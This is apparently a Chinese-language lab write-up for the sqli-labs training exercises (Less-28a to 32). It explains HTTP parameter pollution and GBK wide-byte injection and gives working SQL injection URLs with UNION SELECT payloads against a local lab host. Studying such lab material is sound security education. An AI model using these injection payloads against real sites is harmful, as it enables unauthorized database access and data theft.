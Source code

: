 ## Less-28a

过滤反而变简单了，略。

## Less-29（HTTP参数污染

实际上根本没过滤：http://192.168.1.119:1235/sqli-labs/Less-29/?id=-1'union select 1,database(),3--+。

但是网上讲了一个知识点，记录一下：

HTTP参数污染（HTTP Parameter Pollution） 攻击者通过在HTTP请求中插入特定的参数来发起攻击,如果Web应用中存在这样的漏洞，可以被攻击者利用来进行客户端或者服务器端的攻击

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240329111457.png)

waf服务器（tomcat）只解析重复参数里面的前者，而真正的web服务器（Apache）只解析重复参数里面的后者，我们可以传入两个id参数，前者合法而后者为我们想注入的内容

我们的后端是apache，那么我们只要将参数放在后面即可

http://192.168.1.119:1235/sqli-labs/Less-29/?id=1&id=-1'union select 1,database(),3--+

## Less-30

改为了双引号闭合

http://192.168.1.119:1235/sqli-labs/Less-30/?id=1&id=-1"union select 1,database(),3--+

## Less-31

改为了")闭合

http://192.168.1.119:1235/sqli-labs/Less-31/?id=1&id=-1")union select 1,database(),3--+

## Less-32（宽字节注入

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240329115826.png)

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240329115842.png)

将单双引号转换成了\\\，并且将字符集设置成了gbk，可以进行宽字节注入。

尝试`%df'`，然后将浏览器编码改为gbk，我们可以看到，他变成了汉字

这是因为加上反斜杠也就是`%5c`之后传入参数整体为`%df%5c%27`，而前面说过，在mysql里认为前两个字符是一个汉字，也就是‘運’，而后面的单引号就逃逸出来了

- 宽字节注入的本质是PHP与MySQL使用的字符集不同，只要低位的范围中含有0x5c的编码，就可以进行宽字节注入。

查询时，mysql会在布尔型判断时会将数字开头的字符串当成其开头的数字，但是注意字符串要被引号包裹

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240329150908.png)

http://192.168.1.119:1235/sqli-labs/Less-32/?id=-1%df'union select 1,2,3--+

## Less-33
